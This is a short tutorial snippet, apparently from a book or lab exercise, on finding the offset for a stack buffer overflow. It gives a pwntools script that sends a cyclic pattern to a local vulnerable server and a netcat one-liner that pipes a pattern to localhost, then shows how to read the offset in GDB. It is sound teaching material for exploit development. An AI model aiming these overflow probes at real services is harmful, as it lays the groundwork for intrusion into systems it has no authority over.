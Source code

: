 1. Example python code for determining offset:
```python
#!/usr/bin/env python3
#ch10_6_exploit.py
from pwn import *
context(bits=32, arch='i386')
# Connect to vulnerable ch10_6 server
p = remote('localhost', 5555)
# Send a 1024 bytes long cyclic pattern
payload = cyclic(1024) # Cyclic Pattern
p.sendlineafter(b"Username: ", payload) # Send payload
p.interactive()
```
2. Based on the EIP value in the crash in GDB, run: `cyclic -l 0xYOUR_EIP_VALUE`
	- This will give you the offset

## Method 2

- Run `cyclic -c amd64 200|nc localhost 4446` assuming vuln application is running on 4446
- in gef/gdb `pattern search $rsp`